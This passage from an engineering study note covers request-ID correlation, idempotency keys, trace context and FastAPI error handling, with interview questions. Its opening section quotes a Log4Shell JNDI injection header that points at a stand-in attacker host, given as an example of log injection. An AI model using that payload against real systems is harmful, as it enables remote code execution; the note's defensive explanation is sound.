> Symptom: attackers choose ids that collide with real ones to pollute an investigation, or inject log syntax; CVE-2025-27111 is a real case of the mechanism in another header: "The Rack::Sendfile middleware logs unsanitised header values from the X-Sendfile-Type header. An attacker can exploit this by injecting escape sequences (such as newline characters) into the header, resulting in log injection" (NVD, CWE-93 and CWE-117); OWASP API8:2023 Scenario 1 describes the extreme form, an `X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}` header written to an access log, which is the mechanism of CVE-2021-44228 (Log4Shell), a CVE the OWASP page does not name.
> Fix: adopt only from your own edge, which strips the header at ingress, and only a single value that matches the UUID grammar; otherwise mint a new one and log `inbound_request_id_ignored` without the raw value (mutations M11, M12, M13).

> [!warning] `Exception` handler registered on the app
> Trigger: `app.add_exception_handler(Exception, handler)` produces the `500` body.
> Symptom: the handler runs in `ServerErrorMiddleware`, outside user middleware, so `500` responses carry no `X-Request-ID` and the handler sees an empty context; the responses most likely to reach a support ticket are the ones that cannot be found.
> Fix: catch in the correlation middleware and render the `500` through the stamped `send` (lab test and mutation M14).

> [!warning] Generating v7 on old runtimes
> Trigger: code calls `uuid.uuid7()` or `uuid.UUID(int=n, version=7)`.
> Symptom: `AttributeError` or `ValueError('illegal version number')` on CPython 3.12 and 3.13 (run here on `3.12.13` and `3.13.18`; the source check is `1 <= version <= 5` in 3.12.0).
> Fix: generate v4 for request ids; if v7 is required for index locality, pin the runtime or a library, and remember a v7 key exposes its creation time.

## Security and robustness

- Threat model: the client controls `request_id`, every request header, and the order of duplicate header lines; the edge is trusted only if it strips `X-Request-ID` and `traceparent` from external traffic or the app is told not to trust them.
- OWASP API1:2023 (Broken Object Level Authorization) notes that "Object IDs can be anything from sequential integers, UUIDs, or generic strings"; a dedupe store keyed without the principal is an object store keyed by a client-chosen id, so scope it by principal (mutation M6).
- RFC 9562 Section 8: "Implementations SHOULD NOT assume that UUIDs are hard to guess" and "they MUST NOT be used as security capabilities"; possession of a `request_id` must never authorize a replay to a different principal.
- OWASP API8:2023 lists "Error messages include stack traces, or expose other sensitive information"; the lab's `500` body carries only the `instance` and `trace_id`, and the test asserts the secret in the exception text is absent.
- Validation errors never echo `input`, so a rejected `request_id` or a log-injection payload is not reflected into the response.
- Unknown body fields are rejected with `extra="forbid"`: pydantic's `extra` "Defaults to `'ignore'`" (pydantic 2.14.3 `pydantic/config.py`, `ConfigDict.extra`), under which a client that sends the key under another spelling, such as `requestId`, gets a `201` with no idempotency and its retry creates a duplicate (lab case `unknown-field`; mutation N8).
- W3C Trace Context Section 7.2 warns that a public API that "naively continues any trace with the sampled flag set" lets an attacker "overwhelm an application with tracing overhead, forge trace-id collisions ... or run up your tracing bill"; continue external traces for correlation, but make the sampling decision yourself, and consider restarting traces at the trust boundary as Section 6.1 allows.
- Bound everything before logging: the 36-character grammar for ids, the `55`-character `traceparent` form, and the server's header-section limit; RFC 9110 Section 5.4 requires a `4xx`, not silent truncation, for oversized fields.
- Defense in depth: grammar check at the edge, the same check in the app, a uniqueness constraint in the store, and log fields written as structured values rather than interpolated strings (see [[Structured-Log-Redaction-and-Preventing-PII-and-Token-Leaks]]).

## The principal's view

The decision is to make the three identifiers a platform contract rather than a per-team habit: one edge component mints `X-Request-ID` and strips inbound copies, one tracing library owns `traceparent`, and every mutating method that is not naturally idempotent takes an optional `request_id` with a published grammar, scope, and window.
The organizational trade-off is centralization: a shared middleware and log schema (`client_request_id`, `server_request_id`, `trace_id`) make cross-team incidents tractable, but they couple every service to one library release and one naming decision, and changing a field name later is a fleet-wide migration.
The dedupe window is a cost decision, not a constant: Google Cloud APIs promise at least 60 minutes, AIP-151 calls 30 days "A good rule of thumb for operation expiry" (AIP-151, Expiration), and the store must keep the full response for that long, so price the storage per write before promising days.
Choose the body field (AIP-155) when the API is defined in protobuf and transcoded, because the key travels with the message across gRPC and HTTP; choose the `Idempotency-Key` header when generic HTTP clients, proxies, and SDK middleware must handle retries without parsing bodies; never offer both for one method, because a client that sends two different keys makes the server pick one.
When correlation must cross a message queue or a batch job rather than HTTP, the attempt id stops being useful and the trace context and the business key carry the join instead; see [[Distributed-Tracing-W3C-Trace-Context-and-Baggage-Propagation]].

## Interview questions

> [!question] L5: What is the difference between an AIP-155 `request_id` and an `X-Request-ID`?
>
> > [!success]- Answer
> > The `request_id` is chosen by the client, names one logical operation, and is reused on every retry so the server can process the operation once.
> > The `X-Request-ID` is assigned by the server or its edge, names one attempt, and is new on every retry so each attempt can be found in logs.
> > Merging them either breaks idempotency (a new key per retry) or breaks debugging (one id for many attempts).
> >
> > Follow-up: Which of the two should appear in an RFC 9457 `instance`, and why?

> [!question] L5: Predict the output: `str(uuid.UUID("9-1-9-1-08f752d143209bacf847db4148a8"))` and `TypeAdapter(UUID4).validate_python("urn:uuid:919108f7-52d1-4320-9bac-f847db4148a8")`.
>
> > [!success]- Answer
> > Both succeed and both produce `919108f7-52d1-4320-9bac-f847db4148a8`.
> > CPython removes `urn:`, `uuid:`, surrounding braces, and every hyphen, then checks only that 32 hex digits remain; pydantic-core uses the Rust `uuid` crate's `parse_str`, which accepts the URN form.
> > The lab test `test_stdlib_and_pydantic_parsers_are_lax_so_a_grammar_check_must_come_first` asserts exactly this.
> >
> > Follow-up: Why does that matter if both forms normalize to the same UUID?

> [!question] L5: Why reject `00000000-0000-0000-0000-000000000000` as a `request_id` when it parses as a valid UUID?
>
> > [!success]- Answer
> > RFC 9562 Section 5.9 reserves the Nil UUID to mean "no such value here", and it does not carry the RFC variant, so it is not a version 4 UUID.
> > Clients that send the zero value of an unset field would map every request to one key and get the first response replayed forever.
> > Google Cloud APIs document "zero UUID is not supported", and the lab returns a `400` problem with a specific message.
> >
> > Follow-up: What other sentinel does RFC 9562 define, and does the lab accept it?

> [!question] L6: Debug this API: customers report that `500` responses have no `X-Request-ID`, while `404` and `422` responses do; the middleware sets the header in a `send` wrapper, and a FastAPI `Exception` handler renders the `500` body.
>
> > [!success]- Answer
> > FastAPI's `build_middleware_stack` turns an `Exception` or `500` handler into the handler of `ServerErrorMiddleware`, which wraps all user middleware.
> > By the time it runs, the correlation middleware has re-raised, reset its `ContextVar`, and lost its `send` wrapper, so the body and headers are built without the id.
> > `404` and `422` come from `ExceptionMiddleware` or the router, inside the user middleware, so they are stamped.
> > Fix it by catching in the correlation middleware and rendering the `500` through the stamped `send` when no response has started.
> >
> > Follow-up: What should the middleware do if the exception is raised after `http.response.start` was sent?

> [!question] L6: Two tenants send the same `request_id`: what must happen, and what goes wrong in a naive store?
>
> > [!success]- Answer
> > Each tenant gets its own resource, because the dedupe key must include the authenticated principal and the method.
> > A store keyed only on the UUID replays tenant A's stored response to tenant B, which is an object-level authorization failure (OWASP API1:2023) built from a client-chosen id.
> > RFC 9562 Section 8 also says UUIDs must not be treated as capabilities, so knowing a key must never grant access.
> >
> > Follow-up: How would you enforce the same scoping in PostgreSQL rather than in application code?

> [!question] L6: Your edge proxy sets `X-Request-ID`: when should the application adopt the inbound value, and how should it handle two `X-Request-ID` lines?
>
> > [!success]- Answer
> > Adopt it only if the network guarantees the request came through your edge and the edge strips client-supplied copies; otherwise mint a new one.
> > Even then, adopt only one well-formed value: RFC 9110 Section 5.3 forbids senders from generating repeated non-list fields, and Starlette's `Headers.__getitem__` would silently pick the first line.
> > Two lines mean something upstream is broken or hostile, so treat it as no trusted value, mint a new id, and record that the inbound value was ignored without logging it raw.
> >
> > Follow-up: What changes if the edge is a third-party CDN rather than your own proxy?

> [!question] L6: A `traceparent` arrives as `00-4BF92F3577B34DA6A3CE929D0E0E4736-00f067aa0ba902b7-01`: what does a conforming server do?
>
> > [!success]- Answer
> > It ignores the header and starts a new trace, because `trace-id` is `32HEXDIGLC` (lowercase only) in W3C Trace Context Section 3.2.2, and invalid characters make the header invalid.
> > OpenTelemetry's propagator rejects it too, and the lab's agreement test includes that case.
> > The header name, by contrast, may arrive in any case.
> >
> > Follow-up: What should the server do with `tracestate` when `traceparent` fails to parse?

> [!question] L7+: Would you standardize on AIP-155 body fields or on the `Idempotency-Key` header across a 200-service organization?
>
> > [!success]- Answer
> > Pick per surface, not per company: protobuf-first APIs that are transcoded to HTTP benefit from a body field because the key survives gRPC and HTTP and is visible to schema tooling.
> > Public HTTP APIs consumed by generic clients benefit from the header because retry middleware, proxies, and SDKs can add it without understanding the body.
> > What must be uniform is the semantics: UUIDv4 grammar, value comparison, principal and method scope, payload fingerprint with `422` on reuse, and a published window; never both mechanisms on one method.
> > The cost is a dedupe store sized to the window times the write rate, and a shared library whose upgrades every team must take.
> >
> > Follow-up: How do you migrate a method that accepted free-form request ids to the strict grammar without breaking existing clients?

> [!question] L7+: An incident review finds three log schemas: `request_id`, `requestId`, and `x_request_id`, meaning different things in different services; what do you change, and how do you roll it out?
>
> > [!success]- Answer
> > Define one schema with unambiguous names, for example `client_request_id`, `server_request_id`, and `trace_id`, and publish which header or field each comes from.
> > Ship it in the shared correlation middleware and logger, dual-write old and new names for a deprecation window, and move dashboards and alerts to the new names before removing the old ones.
> > Gate new services on the schema in CI, and keep `google.rpc.RequestInfo.request_id` or RFC 9457 `instance` mapped to the server id so error bodies and logs agree.
> >
> > Follow-up: How would you measure that the migration is complete?

## Related

Prerequisites: [[Resumable-HTTP-Uploads-IETF-Draft-and-Tus-Protocol]]

Next: [[Compatibility-Taxonomy-Wire-Source-and-Semantic-Compatibility-AIP-180]]

See also: [[API-Fundamentals]], [[02-Programming-Languages/Python/Python-Backend-Interview-Prep/04-FastAPI]], [[Idempotency-Key-Header-Specification-and-State-Machine-Draft-08]], [[Atomic-Idempotency-Phases-and-Failure-Recovery-Across-Network-Drops]], [[Asynchronous-Job-Result-Expiration-Cancellation-and-Wait-Semantics]], [[Resource-Identifiers-UUIDv4-vs-UUIDv7-ULID-and-Public-IDs]], [[Problem-Details-for-HTTP-APIs-RFC-9457]], [[Google-AIP-193-Error-Model-and-Rich-Error-Details]], [[Mapping-Pydantic-Validation-Errors-to-RFC-9457-Problem-Details]], [[Error-Taxonomy-Retryability-and-Client-Contract-Design]], [[Distributed-Tracing-W3C-Trace-Context-and-Baggage-Propagation]], [[Structured-Logging-with-Structlog-and-Stripe-Canonical-Log-Lines]], [[Pure-ASGI-Middleware-Onion-Architecture-and-Send-Receive-Wrapping]], [[Why-BaseHTTPMiddleware-Hurts-Performance-Streaming-and-ContextVars]], [[Starlette-Exception-Hierarchy-ServerErrorMiddleware-vs-ExceptionMiddleware]], [[Exception-Handling-in-FastAPI-HTTPException-vs-RequestValidationError]], [[Forwarded-Header-RFC-7239-and-X-Forwarded-For-Spoofing]], [[Defeating-BOLA-API1-2023-Tenant-Scoped-Queries-and-PostgreSQL-RLS]], [[Structured-Log-Redaction-and-Preventing-PII-and-Token-Leaks]]

- Lab: `labs/tests/f06_bulk_long_running_and_error_contracts/test_idempotent_request_identification_and_request_id_correlation_aip_155.py`

## Further reading

- [AIP-155](https://google.aip.dev/155): the `request_id` contract, the duplicate-response rule, and stale success responses.
- [AIP-202](https://google.aip.dev/202): the `UUID4` format annotation and why UUIDs must not be compared as text.
- [google/api/field_info.proto](https://github.com/googleapis/googleapis/blob/master/google/api/field_info.proto): the normative `FieldInfo.Format.UUID4` definition.
- [google/rpc/error_details.proto](https://github.com/googleapis/googleapis/blob/master/google/rpc/error_details.proto): `RequestInfo.request_id`, the server-side id with the same name.
- [RFC 9562](https://www.rfc-editor.org/rfc/rfc9562.html): the UUID text grammar, v4 and v7 layouts, Nil and Max, and the security considerations.
- [W3C Trace Context Level 1](https://www.w3.org/TR/2021/REC-trace-context-1-20211123/): the `traceparent` grammar, versioning rules, and the denial-of-service warning.
- [RFC 9457](https://www.rfc-editor.org/rfc/rfc9457.html): `instance` as the occurrence identifier and the rule for extension members.
- [RFC 9110 Sections 5.3 and 5.4](https://www.rfc-editor.org/rfc/rfc9110.html): duplicate field lines and field size limits.
- [RFC 6648](https://www.rfc-editor.org/rfc/rfc6648.html): why `X-` names are deprecated for new parameters.
- [draft-ietf-httpapi-idempotency-key-header-08](https://www.ietf.org/archive/id/draft-ietf-httpapi-idempotency-key-header-08.txt): the header alternative, fingerprints, and the `422` reuse rule.
- [ASGI HTTP and WebSocket spec](https://asgi.readthedocs.io/en/latest/specs/www.html): request header names are only expected, not guaranteed, to be lowercase.
- [FastAPI 0.162.0 `fastapi/applications.py`](https://github.com/fastapi/fastapi/blob/0.162.0/fastapi/applications.py): `build_middleware_stack`, the reason `Exception` handlers see no middleware state.
